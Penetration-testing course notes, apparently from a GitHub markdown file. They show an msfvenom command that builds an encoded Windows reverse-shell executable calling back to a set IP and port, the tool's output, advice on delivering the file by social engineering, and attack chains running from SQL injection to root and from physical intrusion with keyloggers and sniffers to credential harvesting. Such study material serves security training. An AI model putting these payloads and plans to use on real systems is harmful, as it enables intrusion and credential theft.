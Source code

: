 $:~# msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.0.107 LPORT=4444 -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f exe -o msf_exploit-test1.exe

# this is the example output

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: msf_exploit-test1.exe

# so now at this point we would social engineer the file 'msf_exploit-test.exe' on to a machine. whether it be e-mail, usb stick, etc

	- port modification can happen as well, note: PORT: 443 is encrypted and usually allowed through firewalls
	- you may have to change the port# or the ip address on an exploit you find in the wild. we kind of knew this but its great to hear it again
	- PORT/ IPS / ENCODERS are all variables that need to be modified or at the very least confirmed BEFORE using the exploitation you found. 
	- note: when your on an engagement and your trying to get a vuln to work and you have NO other options you can create a virtual environment to simulate the box/netw		ork we are testing  		
		> the instructor used this method to discover that the 'memmory' was off by just a few bits.
		> he made the adjustmeant to where the memmory location is. so that the memmory is in the right slots. that way the payload can be fired off 



================ Exploitation Prep pt 2
=======================================


	- chaining exploits: shell shock/ dirty cow/ would be used to escalate and get root privaleges being strung on top of
	whatever vulnerability i exposed to get onto the system/network. 
	- working through your attack paln/ game plan
	- ex:
		> 1 SQL injection for authentication bypass
		> 2 logged in as user. file upload privileges 
		> 3 command injection vulnerability
		> 4 use command injection to inject the payload we created earlier.
		> 5 now we have a rev shell. but your only www-data
		> 6 privilege escalation priv esc.
		> 7 top of the mountain

	- ex: 
		> 1 physical attack: break into one of the targets installations (base of opperation) using a social engineering attack 
		> 2 plug in 'rubber ducky', 'key logger', 'network sniffer', 'land turtle',
		> 3 this gives us the ability to sniff the data across the network 
		> 4 with packet sniffing you can start credential harvesting
		> 5 grab some clear text creds out of wireshark
		> 6 maybe the creds were admin creds and we now have root access
